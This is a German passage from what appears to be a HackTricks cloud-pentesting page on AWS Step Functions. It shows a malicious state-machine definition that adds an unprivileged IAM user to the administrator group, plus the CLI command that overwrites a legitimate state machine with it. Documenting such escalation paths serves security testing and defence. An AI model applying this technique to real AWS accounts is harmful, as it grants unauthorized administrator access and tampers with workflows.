 {{#tab name="Bösartige aktualisierte Zustandsmaschine" }}
```json
{
"Comment": "Hello world from Lambda state machine",
"StartAt": "Start PassState",
"States": {
"Start PassState": {
"Type": "Pass",
"Next": "LambdaInvoke"
},
"LambdaInvoke": {
"Type": "Task",
"Resource": "arn:aws:states:::lambda:invoke",
"Parameters": {
"FunctionName": "arn:aws:lambda:us-east-1:123456789012:function:HelloWorldLambda:$LATEST"
},
"Next": "AddUserToGroup"
},
"AddUserToGroup": {
"Type": "Task",
"Parameters": {
"GroupName": "administrator",
"UserName": "unprivilegedUser"
},
"Resource": "arn:aws:states:::aws-sdk:iam:addUserToGroup",
"Next": "End PassState"
},
"End PassState": {
"Type": "Pass",
"End": true
}
}
}
```
{{#endtab }}
{{#endtabs }}

- **Befehl** ausgeführt, um **die legitime Zustandsmaschine** **zu aktualisieren**:
```bash
aws stepfunctions update-state-machine --state-machine-arn arn:aws:states:us-east-1:123456789012:stateMachine:HelloWorldLambda --definition file://StateMachineUpdate.json
{
"updateDate": "2024-07-10T20:07:10.294000+02:00",
"revisionId": "1a2b3c4d-1a2b-1a2b-1a2b-1a2b3c4d5e6f"
}
```
**Potenzielle Auswirkungen**: Unbefugte Ausführung und Manipulation von Workflows sowie Zugriff auf sensible Ressourcen, was potenziell zu erheblichen Sicherheitsverletzungen führen kann.

{{#include ../../../banners/hacktricks-training.md}}
